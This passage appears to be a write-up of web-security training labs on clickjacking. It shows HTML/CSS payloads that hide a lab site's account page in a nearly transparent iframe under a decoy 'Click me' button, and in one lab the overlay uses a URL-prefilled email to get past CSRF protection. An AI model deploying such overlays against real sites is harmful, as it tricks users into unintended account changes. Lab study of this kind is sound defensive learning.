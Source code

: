 
In this case we can use the position: absolute and adjust the position.

Now we can play with the opacity:

```html
<style>
iframe {
width: 100%;
height: 100%;
opacity: 0.0001;
}

div {
position: absolute;
top: 545px;
left: 70px;
}

</style>

<div>Click</div>
<iframe src="https://0abd007c0302dd4080dc6740008d0041.web-security-academy.net/my-account"</iframe>
```

# Clickjacking with form input data prefilled from a URL parameter

In this case we need to change the email of the victim that click the link, but we have a csrf parameter in POST, you can tray to change the method of the request, remove the csrf token, try with another value but nothing.

In the URL if you try to add `&email` parameter and send the request you see that in the form the the email is added to the input box but it has not been changed.

You can check in the exploit server:

```html
<iframe src="https://0adc00c404c507fc80f9037600a40010.web-security-academy.net/my-account?email=hacked@hacked.com" style="position:fixed;top:0;left:0;width:100vw;height:100vh;border:none;"></iframe>
```

With this, you can "bypass" the csrf token because we don't know how to bring it with us. The next step is create `<div>` above the button of change email and play with the opacity of the iframe.

```html
<style>
iframe {
height: 100vw;
width: 100vw;
top: 0;
left: 0;
border: none;
opacity: 0.0001;
}

div {
position: absolute;
top: 450px;
left: 70px;
}

</style>

<div>Click me</div>
<iframe src="https://0adc00c404c507fc80f9037600a40010.web-security-academy.net/my-account?email=pwned@pwned.com"></iframe>
```